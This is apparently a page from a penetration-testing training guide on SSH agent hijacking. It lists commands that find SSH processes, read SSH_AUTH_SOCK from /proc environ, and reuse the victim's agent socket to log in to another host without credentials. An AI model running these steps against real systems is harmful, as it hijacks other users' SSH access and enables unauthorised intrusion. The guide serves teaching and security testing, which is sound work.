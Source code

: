 ## Abuse

List all running SSH processes to identify active agent sessions.

```bash
ps aux | grep ssh
```

Check the process tree to find the process IDs (PIDs) associated with SSH connections.

```bash
pstree -p offsec | grep ssh
```

Inspect the environment variables of the SSH process to find the `SSH_AUTH_SOCK` value, which is needed to connect to the SSH agent.

```bash
cat /proc/16381/environ
```
Replace `16381` with the PID of the SSH process.

Set the `SSH_AUTH_SOCK` environment variable to the value found in the previous step, then list the keys loaded in the SSH agent:

```bash
SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh-add -l
```

If keys are listed, this confirms that you have successfully hijacked the SSH agent.

Using the hijacked agent, SSH into the destination system without needing additional credentials:

```bash
SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh offsec@linuxvictim
```
Replace `offsec@linuxvictim` with the appropriate username and target host.

This allows you to access the victim's SSH sessions using their agent without knowing their private key, leveraging the active SSH connection.


